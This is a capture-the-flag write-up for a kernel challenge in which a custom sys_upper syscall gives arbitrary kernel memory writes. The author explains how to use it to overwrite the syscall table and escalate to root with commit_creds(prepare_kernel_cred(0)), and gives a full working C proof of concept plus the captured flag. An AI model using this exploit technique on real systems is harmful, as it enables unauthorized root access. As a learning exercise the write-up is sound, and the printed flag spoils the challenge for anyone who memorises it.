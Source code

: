 # Rookiss syscall challenge writeup by agam ^_^

### In the given syscall.c code, we can see that they add a new syscall named sys_upper to the syscall_table. This syscall essentially converts any string of lowercase to uppercase.

```c
static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}
```
# INDEED? :D


### By inspecting the syscall code further, we can see that essentially, any user has read/write permissions in the kernel, indicated by a 0x20 offset ☠.
```c
asmlinkage long sys_upper(char *in, char* out) {
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i] >= 0x61 && in[i] <= 0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

## On the host, we can see that the kernel module has already been loaded.
```bash
$ lsmod
m 663 0 - Live 0x7f000000 (PO)

$ cat /proc/kallsyms | grep sys_upper
7f000000 t sys_upper    [m]
```

## To gain privileges, we need to change the process privileges and commit them. This can be achieved with this line of code:
```c
commit_creds(prepare_kernel_cred(0))
```

### Where "prepare_kernel_cred" is a func that creates a struct which represents the credentials of a process in the kernel. By passing 0 as an argument, you're essentially asking the kernel to prepare credentials for root. This function allocates and initializes a cred structure with elevated privileges.
```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

    ...

	old = get_task_cred(daemon);

	*new = *old;
	new->non_rcu = 0;
	atomic_long_set(&new->usage, 1);
	get_uid(new->user); 
	get_user_ns(new->user_ns);
	get_group_info(new->group_info);

    ...
}
``` 

 And **"commit_creds"** is a function that is used to replace the credentials of the current process with the credentials provided as an argument. It effectively changes the process's security context. By passing the result of prepare_kernel_cred(0) as an argument to commit_creds(), you're replacing the current process's credentials with those of the root privileges.

## since there isn't kalsr, Let's check the addresses of those functions inside of /proc/kallsyms:
```bash
$ cat /proc/kallsyms | grep sys_call_table
    >>> 8000e348 T sys_call_table <<<
```
```bash
$ cat /proc/kallsyms | grep prepare_kernel_cred
    >>> 8003f924 T prepare_kernel_cred <<<
    80447f34 r __ksymtab_prepare_kernel_cred
    8044ff8c r __kstrtab_prepare_kernel_cred
```
```bash
$ cat /proc/kallsyms | grep creds
    8003f3d8 T override_creds
    8003f44c T prepare_creds
    8003f51c T revert_creds
    >>> 8003f56c T commit_creds <<<
```

# Let's make the exploit poc!
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/syscall.h>

// 8000e348 T sys_call_table
#define SYS_CALL_TABLE       ((void**)0x8000e348) // 0x [80] [00] [e3] [48] -> 
#define COMMIT_CREDS         0x8003f56c // 0x [80] [03] [f5] [6c] -> "\x8c\xf5\x03\x80";
#define PERPARE_KERNEL_CREDS 0x8003f924 // 0x [80] [03] [f9] [24] -> "\x24\xf9\x03\x80";

#define SYS_UPPER            223


long get_root_privlleges_process(void* (*prepare)(void*), int (*commit)(void*) )
{
    return commit(prepare(NULL));
}

int main() 
{

    unsigned int** sct;
    sct = (unsigned int**)SYS_CALL_TABLE;
    printf("[+] get_root_privlleges_process func addr: %p\n", get_root_privlleges_process);

    // store pointer to get_root_privlleges_process
    uint8_t sys_root_ptr[sizeof(void*) + 1] = {0};
    *(void**)sys_root_ptr = (void*)get_root_privlleges_process;

    printf("[+] sys_root_ptr: %p\n", sys_root_ptr);
    printf("[+] sys_upper addr: %p\n", SYS_CALL_TABLE + SYS_UPPER); 

    // override SYS_UPPER syscall functionality to our get_root_privlleges_process func
    syscall(SYS_UPPER, sys_root_ptr, &sct[SYS_UPPER]);
    puts("changed sys_upper to sys_root_ptr :D");
    
    void *commit  = (void*)COMMIT_CREDS;
    void *prepare = (void*)PERPARE_KERNEL_CREDS;

    printf("[+] commit: %p\n[+] prepare: %p\n", commit, prepare);
    // call our new syscall with the memory address of commit and prepare
    syscall(SYS_UPPER, prepare, commit);

    //      goal
    // ----------------
    system("/bin/sh");

    return 0;
}
```
```bash
/tmp $ cat /root/flag
Congratz!! addr_limit looks quite IMPORTANT now... huh?
```
# The flag is : Congratz!! addr_limit looks quite IMPORTANT now... huh?

